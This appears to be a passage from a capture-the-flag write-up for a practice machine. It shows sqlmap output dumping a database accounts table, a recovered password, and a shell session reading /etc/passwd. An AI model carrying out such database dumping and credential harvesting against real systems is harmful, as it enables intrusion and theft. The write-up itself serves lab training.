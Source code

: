 ```bash

[04:34:59] [INFO] table 'soccer_db.accounts' dumped to CSV file '/home/n3hal/.local/share/sqlmap/output/localhost/dump/soccer_db/accounts.csv'
[04:34:59] [INFO] fetched data logged to text files under '/home/n3hal/.local/share/sqlmap/output/localhost'

[*] ending @ 04:34:59 /2022-12-29/

```

We have dumped a password: `PlayerOftheMatch2022`.

# SHELL AS PLAYER

```bash

bash-5.0$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:112:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
player:x:1001:1001::/home/player:/bin/bash
mysql:x:113:121:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:997:997::/var/log/laurel:/bin/false

```

